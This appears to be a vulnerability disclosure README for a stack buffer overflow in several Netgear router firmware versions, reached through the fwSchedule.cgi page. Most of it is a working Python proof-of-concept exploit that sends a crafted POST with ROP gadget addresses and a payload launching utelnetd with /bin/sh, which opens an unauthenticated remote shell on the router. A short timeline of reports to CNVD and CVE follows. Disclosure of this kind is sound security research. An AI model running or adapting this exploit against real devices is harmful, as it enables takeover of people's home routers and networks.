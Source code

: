 # Netgear Routers vulnerability
Netgear includes three new versions of firmware, R6900 1.0.2.26, R6700v3 1.0.4.128, R6700 1.0.0.26. These versions of the firmware are vulnerable to a stack overflow as shown below.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/netgear/vlun.png)

where sprintf v24 has only a finite size of 92 and getInputData v6, v21, v20, v19, v18 are controllable and may overflow the stack-based buffer.
By requesting the /fwSchedule.cgi page, an attacker can execute a denial-of-service attack or remote code execution using carefully crafted overflow data.

## POC
```
import socket
import sys

header = 'POST /fwSchedulePPP2.cgi?.css.ico/xxx/rpc/ HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: */*\r\nUser-Agent: python-requests/2.23.0\r\nContent-Length: %d\r\n\r\n'
post_data = 'action=%E5%BA%94%E7%94%A8&checkboxNameAll=checkboxValue&checkboxNamehours=checkboxValue&schedule_day=255&schedule_alldayenable=0&starthour=0&startminute=0&endhour=23&result=apply&enable_apmode=0&endminute=59:00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'
gadget = '%84%b7%03%00'
pad = '\x00'+'a'*(0x2d1 - len(post_data + gadget))
gadget2 = '\x48\xf5\x0c\x00'
cmd = '/bin/utelnetd -l/bin/sh -d;\x00'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1] , int(sys.argv[2])))
s.send(header % len(post_data+gadget) + post_data + gadget + pad + gadget2 + cmd)
s.close()
```
## Timeline
2023-03-20: Report to CNVD;
2023-03-30: Report to CVE;

## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.
